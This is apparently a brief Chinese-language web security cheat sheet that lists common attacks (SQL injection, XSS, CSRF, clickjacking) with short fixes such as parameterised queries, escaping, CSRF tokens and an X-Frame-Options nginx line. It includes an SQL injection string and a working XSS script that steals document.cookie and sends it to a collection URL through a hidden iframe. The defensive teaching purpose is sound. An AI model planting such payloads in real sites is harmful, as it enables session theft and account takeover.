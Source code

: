 
### web site security

1. sql inject
```
攻击实例： 'or 1=1--
改正方法： sql使用参数化, 不拼sql
```

2. xss cross site scripting

```
攻击实例： 攻击者通常会在有漏洞的程序中插入JavaScript、VBScript、ActiveX或Flash以欺骗用户。一旦得手，他们可以盗取用户帐户信息，修改用户设置，盗取/污染cookie和植入恶意广告等。用 

<script type="text/javascript"> 
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    console.log("cookes: " + cookies);
    var xssURIBase = "http://localhost:9000/v2/xss?cookie=";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
</script>

改正方法：escape input
```
3. csrf Cross-site request forgery

```
攻击实例：  http:xxx.com/posts?title=1212&content=345345
1. 正确使用http method, get , post, put, delete, options, head, patch, trace, connect

攻击实例： http post  register
改正方法： 1. 验证码 2. csrf token 3. 关键业务重复数据密码

ajax: 跨域开放时，给出有限访问的白名单
改正方法： 给出有限访问的白名单


```
4. x-frame cfs

```
Using X-Frame-Options
DENY
The page cannot be displayed in a frame, regardless of the site attempting to do
so.
SAMEORIGIN
The page can only be displayed in a frame on the same origin as the page itself.
ALLOW-FROM uri
The page can only be displayed in a frame on the specified origin.

Nginx config 
add_header X-Frame-Options SAMEORIGIN;
```

7. Ddos

### 加强安全
5. cookie
```
加密
```

8. 使用https

9. 密码

```
密码加密
```

10. 重复提交

```
1. 重复提交form 表单  使用token
```

